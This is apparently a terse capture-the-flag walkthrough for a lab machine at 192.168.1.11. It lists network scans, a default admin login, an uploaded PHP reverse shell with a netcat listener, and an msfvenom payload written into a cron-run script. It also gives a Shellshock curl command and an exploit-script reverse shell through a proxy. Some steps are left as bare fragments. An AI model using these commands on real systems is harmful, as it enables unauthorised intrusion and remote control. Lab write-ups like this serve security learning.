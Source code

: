 Sudo Netdiscover

![](Assets/1.png)

Nmap -sC -sV -Pn -p- -A 192.168.1.11

 Nikto -h 192.168.1.11 -useproxy 192.168.1.11:3128

Burp proxy 192.168.1.11 : 3128  >>>> 192.168.1.11/robots.txt

Admin:admin

Added ip and port to php Reverse shell

Uploaded php reverse shell

Nc -nvlp 1234 & visited url of shell >> got shell

Visited var/www


Method 1: Using connect.py

Rw permissions for connect.py. Visit cron.d

Create payload with msfvenum 

Echo payload to connect.py

Nc -nvlp 7777


Method 2: using config.php

config.php



Method 3: Get a shell using shellshock

curl --proxy 192.168.1.11:3128 http://192.168.1.11/cgi-bin/status -H "User-Agent: () { pwned;}; echo 'Content-Type: text/plain'; echo; /usr/bin/whoami; exit"

Download 34900.py

Reverse shell: python 34900.py payload=reverse rhost=192.168.1.11 lhost=192.168.1.7 lport=1234 proxy=192.168.1.11:3128 pages=/cgi-bin/status


config.php

sudo


